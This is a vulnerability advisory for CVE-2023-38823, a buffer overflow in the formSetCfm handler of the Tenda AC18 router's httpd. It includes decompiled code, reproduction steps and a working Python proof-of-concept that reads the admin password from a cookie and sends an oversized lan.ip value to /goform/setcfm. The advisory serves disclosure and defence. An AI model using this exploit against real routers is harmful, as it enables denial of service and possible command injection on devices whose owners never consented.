

# Buffer Overflow in formSetCfm

## 1. Affected model(s) and firmware/software version(s)

Product: AC18

Version: V15.03.05.19(6318)

Downloaded from: https://www.tenda.com.cn/download/detail-2683.html

Binary: `/bin/httpd`

## 2. Vulnerability description and potential impacts

In binary, there is a function called `formSetCfm` which allows any user to set value in any length of any keys in the following code:

```c
    do {
        sprintf((char *)&uStack_138,"name%d",local_14);
        local_1c = (char *)FUN_0002ba8c(param_1,&uStack_138,&DAT_000df880);
        if (*local_1c == '\0') break;
        sprintf((char *)&uStack_238,"value%d",local_14);
        local_18 = FUN_0002ba8c(param_1,&uStack_238,&DAT_000df880);
        printf("name:%s\tvalue:%s\n",local_1c,local_18);
        SetValue(local_1c,local_18);
        local_14 = local_14 + 1;
    } while (local_14 < 0x15);
```

We can set a specific key (ex: `lan.ip`) with a large bytes of value and when the program calls `GetValue` with that specific key `lan.ip`, it will read to a buffer and hence, cause overflow. In addition, it can also cause command injection.

## 3. Step-by-step instructions to reproduce the issue

- Step 1: Run router
- Step 2: Request the index.html to get the password from cookie
- Step 3: Craft a malicious payload
- Step 4: Send payload from step 3 (in body of packet) and password from step 2 (in header cookie) to url `http://<ip>/goform/setcfm` with POST requests

## 4. Proof-of-concept (PoC) or exploit code for the issue

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.0.1/'

# Get password
url = url_base + 'index.html'
res = s.get(url)
password = 'password=' + s.cookies.get_dict()['password'] + '; bLanguage=cn'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'name0': 'lan.ip', 
        'value0': b'a'*0x500, 
        'funcname':'changelanip'
}
headers = {
    'Cookie': password,
}

res = re.post(url, data=data, headers=headers)
```



## 5. Any suggested solutions to fix this

Limit number of bytes read to buffer in function `GetValue`

## 6. Severity (e.g. CVSS v3.x)

DOS, Command injection

## 7. Acknowledgement

Nguyen Huu Tri, Cao Ngoc Quy and Nguyen Le Quoc Anh of bl4ckh0l3 from Galaxy One

## 8. Assigned CVE

CVE-2023-38823